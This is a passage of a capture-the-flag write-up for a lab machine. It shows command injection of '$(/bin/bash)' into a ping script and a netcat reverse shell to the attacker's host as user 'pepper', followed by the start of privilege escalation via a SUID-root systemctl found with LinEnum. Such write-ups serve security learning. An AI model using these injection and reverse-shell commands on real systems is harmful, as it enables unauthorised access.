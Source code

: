 Scanning through the code real quickly, we can see that the function ```exec_ping``` does a system call on the user input. We can use this to our advantage following the syntax ```$(/bin/bash)``` which encapsulates the bash command and feeds it to standard input into the system command. 
#### Note: os.system takes in sys.stdin as in system in C, hence this would be the equivalent of passing a /bin/bash command in a unix command line(?).

We land ourselves in a sorta "jail" where we have to do blind command line execution. We can simply launch another nc session back to another listener on our machine and get a session as the user ```pepper``` 

```
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(/bin/bash)
ls
nc -nv 10.10.15.234 9001 -e /bin/bash
.
.
.
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:57060.
ls
simpler.py
whoami
pepper
```

```
wc -c user.txt
33 user.txt
```

Got user!

## Privilege Escalation

After uploading ```LinEnum.sh``` onto the server, we find something peculiar:

```
[-] SUID files:
-rwsr-xr-x 1 root root 30800 Aug 21  2018 /bin/fusermount
-rwsr-xr-x 1 root root 44304 Mar  7  2018 /bin/mount
-rwsr-xr-x 1 root root 61240 Nov 10  2016 /bin/ping
-rwsr-x--- 1 root pepper 174520 Feb 17  2019 /bin/systemctl
-rwsr-xr-x 1 root root 31720 Mar  7  2018 /bin/umount
-rwsr-xr-x 1 root root 40536 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 40312 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59680 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 75792 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 40504 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 140944 Jun  5  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 50040 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
```